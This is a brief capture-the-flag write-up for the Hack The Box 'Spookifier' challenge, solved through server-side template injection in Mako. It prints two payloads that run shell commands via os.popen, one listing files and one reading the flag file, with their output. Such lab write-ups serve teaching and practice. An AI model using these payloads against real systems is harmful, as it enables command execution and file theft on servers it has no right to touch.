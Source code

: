 # Spookifier

Description:
```
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
```

Looking at the source code we can see mako is used. So we can try an SSTI payload.
```python
<%import os%>${os.popen('ls ').read()}
```

```bash
application run.py
```

And it works. We can see in the challenge folder the flag should be in the parent directory.
```python
<%import os%>${os.popen('cat ../flag.txt').read()}
```

Output:
```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1...
```
